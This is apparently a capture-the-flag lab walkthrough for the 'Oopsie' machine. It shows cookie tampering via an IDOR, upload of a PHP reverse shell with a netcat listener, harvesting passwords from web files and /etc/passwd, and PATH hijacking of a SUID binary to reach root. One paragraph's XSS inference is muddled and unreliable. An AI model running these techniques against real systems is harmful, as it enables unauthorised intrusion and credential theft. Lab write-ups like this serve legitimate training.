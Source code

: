 # Oopsie
#startingpoint 
#veryeasy 
#web 
#privescalation 
#latmovement
#cookie
#suid
#php 

### Reconnaissance
The first step in any penetration test is reconnaissance, where we gather information about the target application and its environment. In this case, we used `nmap -p-  $TARGET` to scan the target IP address and identify open ports and services. The output of the Nmap scan is shown below:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-21 18:17 CET
Nmap scan report for 10.129.104.19
Host is up (0.065s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
From the Nmap output, we can see that the target application is running SSH and HTTP services. We also note that there are 65533 closed TCP ports, which suggests that the target application may have additional services or applications running on those ports that are not visible to us.
### Web Application Analysis

Next, we analyzed the target web application using Burp Suite as a proxy to identify potential vulnerabilities. Even if at first sight the website seems pretty simple, in Burp Suite the sitemap allow us to see that there is a hidden login.

We checked the login that is `/cdn-cgi/login` by accessing `http://10.129.104.19/cdn-cgi/login`.
The login had let us enter as a guest, so we did it to perform a further exploration.

The website have a page for uploading files that we could exploit but we needed superadmin rights to use it, so we checked the cookies finding there a cookie for the role and another one for the user id. As we didn't have the values for the admin cookies we keep searching in the website, this time we find a account info tab that shows us the user id, role and mail. The url of this last tab looks like `http://10.129.104.19/cdn-cgi/login/admin.php?content=accounts&id=2`, so we can try to modify the value of id to 1.

|34322|admin|admin@megacorp.com|

With the new value we get the values we needed to modify the cookies in order to be superadmin. With the superadmin priviledges we uploaded a reverse shell to the website, the one that was used can be found in ParrotOS /usr/share/webshells/php/php-reverse-shell.php`

Once uploaded we need to know how to access it so we can trigger it, to achieve this we perform a enumeration of directories with `gobuster dir -u $TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.104.19
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2023/11/21 18:44:37 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.104.19/images/]
/index.php            (Status: 200) [Size: 10932]                                 
/themes               (Status: 301) [Size: 315] [--> http://10.129.104.19/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.104.19/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.104.19/css/]    
/js                   (Status: 301) [Size: 311] [--> http://10.129.104.19/js/]     
/fonts                (Status: 301) [Size: 314] [--> http://10.129.104.19/fonts/]
```

It will possibly be inside the /uploads directory so before triggering it we start the listener with `nc -lvnp 1234`, now to trigger it we just need to enter into the /uploads/php-reverse-shellp.php. As we get a basic shell we can improve it with `python3 -c 'import pty;pty.spawn("/bin/bash")'`

From the Burp Suite output, we can see that the target application is using a session ID in a cookie. We also note that the login form accepts both username and password input fields. Based on this information, we can infer that the target application may be vulnerable to a cross-site scripting (XSS) attack.

### Lateral movement

As we are using the user www-data which doesn't have privileges, we want to perform a escalation or a lateral movement.
To do so, we start by getting all the available information we can with this user. As the www-data we have permissions on the webcontents files/folders so we go to the default folder for web contents `/var/www/html/` then also we go inside the login folder `/cdn-cgi/login` and inside we perform a search of any kind of password `cat * | grep -i passw*`

```
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```
Now we have a password but we don't know the username so we check the contents of  /etc/passwd.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
The user robert is a real one(we know it because of the assigned shell), so we try to login into its account with the password we discovered previously. When testing with `su` we realize that the password isnt the one of robert so we keep looking. Now we check the file `db.php` getting

```
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

```
We test again to login into robert account with the new password and this time we achieve it.

### Privilege escalation
With our brand new account we start checking if we are a sudoer and our ids by running `sudo -l` and `id`

```
[sudo] password for robert: M3g4C0rpUs3r!

Sorry, user robert may not run sudo on oopsie.
```
We are not sudoers

```
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

But we are in a special group, so lets check if there are any special binaries by running `find / -group bugtracker 2>/dev/null`

```
/usr/bin/bugtracker
```

The special group has a file, so we check the special file type and permissions with the command  `ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker`
```
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

The file has the euid enabled so we can exploit it to escalate privileges, now we run the app to test what it does, apparently it cats a file of our election.

```
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

cat: /root/reports/12: No such file or directory
```

A rootcheck  can be performed  if we change the cat exec, to do this we create a fake cat in `/tmp` that calls `/bin/sh`, now we modify our path with the following commands `echo '/bin/sh' > /tmp/cat`  `chmod +x /tmp/cat` `export PATH=/tmp:$PATH`
After running all the commands we test again to run bugtracker, this time it gave us a root terminal.

```
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

# whoami
whoami
root
```